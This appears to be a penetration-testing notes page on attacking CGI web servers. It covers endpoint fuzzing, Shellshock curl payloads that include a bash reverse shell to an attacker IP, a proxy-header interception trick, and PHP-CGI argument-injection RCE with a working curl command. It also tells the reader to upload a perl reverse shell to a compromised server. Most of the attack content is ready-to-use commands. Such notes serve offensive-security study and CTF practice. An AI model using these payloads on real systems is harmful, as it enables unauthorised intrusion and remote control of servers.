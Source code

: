 # CGI

## Theory

Common Gateway Interface (CGI) is an interface specification that enables [web servers](https://en.wikipedia.org/wiki/Web\_server) to execute an external program to process HTTP/S user requests.

{% hint style="info" %}
The **CGI scripts are perl scripts**, so, if you have compromised a server that can execute _**.cgi**_ scripts you can **upload a perl reverse shell** (`/usr/share/webshells/perl/perl-reverse-shell.pl`), **change the extension** from **.pl** to **.cgi**, give **execute permissions** (`chmod +x`) and **access** the reverse shell **from the web browser** to execute it.
{% endhint %}

## Practice

{% tabs %}
{% tab title="Enumerate" %}
We can fuzz for CGI endpoints using [CGIs.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CGIs.txt) and [CGI-Microsoft.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CGI-Microsoft.fuzz.txt) from [SecList](https://github.com/danielmiessler/SecLists/tree/master)

```bash
#Linux
feroxbuster -u http://<TARGET> -w /usr/share/SecList/Discovery/Web-Content/CGIs.txt

#Windows
feroxbuster -u http://<TARGET> -w /usr/share/SecList/Discovery/Web-Content/CGI-Microsoft.fuzz.txt


```

We can test for CGI vulns using nikto

```bash
nikto -h <TARGET> -C all
```
{% endtab %}
{% endtabs %}

### Vulnerabilities

#### ShellShock - CVE-2014-6271

Bash can also be used to run commands passed to it by applications and it is this feature that the vulnerability affects. One type of command that can be sent to Bash allows environment variables to be set. Environment variables are dynamic, named values that affect the way processes are run on a computer. The vulnerability lies in the fact that an **attacker can tack-on malicious code to the environment variable, which will run once the variable is received**.

{% tabs %}
{% tab title="Exploit" %}
If we found the CGI script under **`/cgi-bin/`**, modifying HTTP header to remote code execution.

```bash
#reflected
curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://<TARGET>/cgi-bin/admin.cgi 2>/dev/null| grep 'VULNERABLE'

#Blind
curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://<TARGET>/cgi-bin/admin.cgi

#reverse shell
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<ATTACKING_IP>/<PORT> 0>&1' http://<TARGET>/cgi-bin/admin.cgi
```
{% endtab %}
{% endtabs %}

#### **Proxy (MitM to Web server requests)**

{% tabs %}
{% tab title="Exploit" %}
CGI creates a environment variable for each header in the http request. For example: "host:web.com" is created as "HTTP\_HOST"="web.com"

As the HTTP\_PROXY variable could be used by the web server. Try to send a **header** containing: "**Proxy: \<IP\_attacker>:\<PORT>**" and if the server performs any request during the session. You will be able to capture each request made by the server.
{% endtab %}
{% endtabs %}

#### CGI RCE - CVE-2012-1823, CVE-2012-2311

{% tabs %}
{% tab title="Exploit" %}
Basically if cgi is active and php is "old" (**<5.3.12 / < 5.4.2**) you can execute code.\
In order t exploit this vulnerability you need to access some PHP file of the web server without sending parameters (specially without sending the character "=").\
Then, in order to test this vulnerability, you could access for example `/index.php?-s` (note the `-s`) and **source code of the application will appear in the response**.

Then, in order to obtain **RCE** you can send this special query: `/?-d allow_url_include=1 -d auto_prepend_file=php://input` and the **PHP code** to be executed in the **body of the request.**

```bash
curl -i --data-binary "<?php system(\"cat /flag.txt \") ?>" "http://jh2i.com:50008/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi" %}

{% embed url="https://exploit-notes.hdks.org/exploit/web/cgi-pentesting/" %}

